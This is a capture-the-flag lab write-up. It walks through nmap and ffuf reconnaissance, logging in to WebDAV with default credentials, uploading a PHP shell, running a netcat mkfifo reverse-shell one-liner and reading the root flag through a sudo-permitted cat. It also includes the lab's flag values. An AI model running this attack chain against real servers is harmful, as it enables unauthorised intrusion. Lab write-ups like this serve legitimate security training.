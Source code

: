 <h3>1. Task: user.txt</h3>

Lets start with the usual nmap scans!

```
$ nmap 10.10.202.252
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 07:38 EDT
Nmap scan report for 10.10.202.252
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

A web server on port 80, lets check it out.<br>
Hm, apache ubuntu default page, lets try to fuzz the directories!
```
$ ffuf -u http://10.10.202.252/FUZZ -w ../wordlist/custom.txt -fc 403 -fs 11321
...
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 43ms]
```

Ffuf found a login page<br>
<img src = "login.png">
Webdavs default credentials are: wampp:xampp<br>
Lets try to login with this Password and Username<br>
<img src="fs.png">
Logged in successfully! We can upload files to webdav like this:
```
$ curl http://10.10.202.252/webdav/ --user "wampp:xampp" --upload-file ../shell.php
```

And now i Will open a netcat session for a better Shell
Start the listener:
```
$ ncat -nlvp 8001
```

And execute the code in the uploaded file:
```
rm /tmp/f; mkfifo /tmp/f; nc <Your_ip> 8001 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
And now i have a more stable Shell
```
$ ncat -nlvp 8001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
Ncat: Connection from 10.10.202.252:57600.
```

Now lets find the first flag
```
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin 
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

<hr>
<h3> 2. Task: root flag </h3>

Running the command "sudo -l" shows us that i can run cat as root without Password
```
www-data@ubuntu:/tmp$ sudo -l   
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

This Will allow us to read the root flag in /root/root.txt !
```
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
